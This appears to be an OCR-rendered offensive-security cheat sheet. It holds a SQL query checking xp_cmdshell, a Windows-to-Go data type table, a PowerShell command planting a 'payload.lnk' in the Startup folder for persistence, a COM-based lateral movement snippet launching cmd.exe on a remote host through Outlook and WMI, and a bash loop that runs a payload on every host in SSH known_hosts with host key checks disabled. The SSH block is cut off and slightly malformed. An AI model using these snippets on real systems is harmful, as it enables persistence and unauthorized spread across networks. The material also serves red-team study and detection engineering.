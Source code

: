 ### Check MS SQL Server Configuration for Command Execution
```sql
SELECT * FROM sys.configurations WHERE name = 'xp_cmdshell';
```
### Windows Data Types to Go Data Types

|Windows Data Type|Go Data Type|
|---|---|
|BOOLEAN|byte|
|BOOL|int32|
|BYTE|byte|
|DWORD|uint32|
|DWORD32|uint32|
|DWORD64|uint64|
|WORD|uint16|
|HANDLE|uintptr (unsigned integer pointer)|
|LPVOID|uintptr|
|SIZE_T|uintptr|
|LPCVOID|uintptr|
|HMODULE|uintptr|
|LPCSTR|uintptr|
|LPDWORD|uintptr|

### Creating LNKs with PowerShell
```powershell
New-Item -ItemType SymbolicLink -Path "C:\Users\<user>\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup" -Name "payload.lnk" -Value "c:\Temp\payload.exe"
```
### Lateral Movement with Outlook + WMI COM Objects
```powershell
$a = [System.Activator]::CreateInstance([type]::GetTypeFromProgID("Outlook.Application", "192.168.1.100"))
$a.CreateObject("WbemScripting.SWbemLocator").ConnectServer(".", "root\cimv2").Get("Win32_Process").Create("cmd.exe")
```
### Lateral Movement via SSH
```bash
PAYLOAD='ping -c 1 10.10.10.1'

# attempting SSH payload execution on systems the root user connect to in the past
if [[ -f /root/.ssh/known_hosts]] && [[ -f /root/.ssh/id_rsa.pub ]]; then
	for HOST in $(grep -oE "\b([0-9]{1,3}\.){3}[0-9]{1,3}\b" /root/.ssh/known_hosts)
		do
			ssh -oBatchMode=yes -oConnectTimeout=5 -oStrictHostKeyChecking=no $HOST $PAYLOAD
		done
fi

# attempting SSH payload execution on systems the current user connect to in the past
if [[ -f $HOME/.ssh/known_hosts]] && [[ -f $HOME/.ssh/id_rsa.pub ]]; then
	for HOST in $(grep -oE "\b([0-9]{1,3}\.){3}[0-9]{1,3}\b" $HOME/.ssh/known_hosts)
		do
			ssh -oBatchMode=yes -oConnectTimeout=5 -oStrictHostKeyChecking=no $HOST $PAYLOAD
		done
```